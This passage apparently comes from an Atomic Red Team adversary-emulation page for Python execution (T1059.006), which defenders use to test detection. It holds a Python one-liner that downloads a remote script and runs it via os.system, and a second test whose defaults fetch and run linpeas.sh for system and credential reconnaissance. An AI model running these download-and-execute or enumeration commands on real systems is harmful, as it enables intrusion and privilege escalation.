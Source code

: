 ```sh
which_python=$(which python || which python3 || which python3.9 || which python2)
$which_python -c 'import requests;import os;url = "#{script_url}";malicious_command = "#{executor} #{payload_file_name} #{script_args}";session = requests.session();source = session.get(url).content;fd = open("#{payload_file_name}", "wb+");fd.write(source);fd.close();os.system(malicious_command)'
```

#### Cleanup Commands:

```sh
rm #{payload_file_name}
```

#### Dependencies: Run with `sh`!

##### Description: Verify if python is in the environment variable path and attempt to import requests library.

##### Check Prereq Commands:

```sh
which_python=$(which python || which python3 || which python3.9 || which python2); $which_python -V
$which_python -c 'import requests' 2>/dev/null; echo $?
```

##### Get Prereq Commands:

```sh
pip install requests
```

<br/>
<br/>

## Atomic Test #2 - Execute Python via scripts

Create Python file (.py) that downloads and executes shell script via executor arguments

**Supported Platforms:** Linux

**auto_generated_guid:** 6c4d1dcb-33c7-4c36-a8df-c6cfd0408be8

#### Inputs:

| Name               | Description                                                                                                                      | Type   | Default Value                                                                 |
| ------------------ | -------------------------------------------------------------------------------------------------------------------------------- | ------ | ----------------------------------------------------------------------------- |
| python_script_name | Python script name                                                                                                               | path   | T1059.006.py                                                                  |
| script_url         | Shell script public URL                                                                                                          | string | https://github.com/carlospolop/PEASS-ng/releases/download/20220214/linpeas.sh |
| payload_file_name  | Shell script file name downloaded from the script_url                                                                            | string | T1059.006-payload                                                             |
| executor           | Payload or script interpreter / executor                                                                                         | string | sh                                                                            |
| script_args        | Arguments to check for system stats, available software, process details, environment paths, open sockets, and interesting files | string | -q -o SysI, Devs, AvaSof, ProCronSrvcsTmrsSocks, Net, UsrI, SofI, IntFiles    |

#### Attack Commands: Run with `sh`!
